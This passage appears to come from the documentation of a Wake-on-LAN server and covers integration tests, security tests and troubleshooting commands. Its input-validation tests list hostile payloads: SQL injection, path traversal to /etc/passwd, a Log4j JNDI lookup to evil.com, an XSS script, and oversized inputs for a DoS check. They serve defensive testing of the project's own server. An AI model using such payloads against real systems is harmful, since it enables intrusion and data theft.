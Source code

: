 ### Integration Testing

**Network Integration Tests:**
```bash
# Test complete wake flow (requires network access)
python3 test_wol.py

# Test server endpoints
curl -X POST http://localhost:8080/wake \
  -H "Content-Type: application/json" \
  -d '{"ip": "192.168.1.100", "mac": "AA:BB:CC:DD:EE:FF"}'
```

### Security Testing

**Input Validation Testing:**
```python
# Test injection attempts
test_payloads = [
    "'; DROP TABLE devices; --",    # SQL injection
    "../../../etc/passwd",          # Path traversal
    "${jndi:ldap://evil.com/x}",   # Log4j injection
    "<script>alert('xss')</script>", # XSS attempt
    "A" * 1000,                     # Buffer overflow
]
```

**DoS Testing:**
```bash
# Test oversized requests
curl -X POST http://localhost:8080/wake \
  -H "Content-Type: application/json" \
  -d '{"ip": "1.2.3.4", "mac": "'$(python3 -c 'print("A" * 1000)')"}'

# Expected: 400 Bad Request (input validation failure)
```

## 🚨 Troubleshooting

### Common Issues

#### Server Won't Start
```bash
# Check port availability
sudo netstat -tlnp | grep 8080

# Check Python version (3.7+ required)
python3 --version

# Check file permissions
ls -la wol_server.py
chmod +x wol_server.py
```
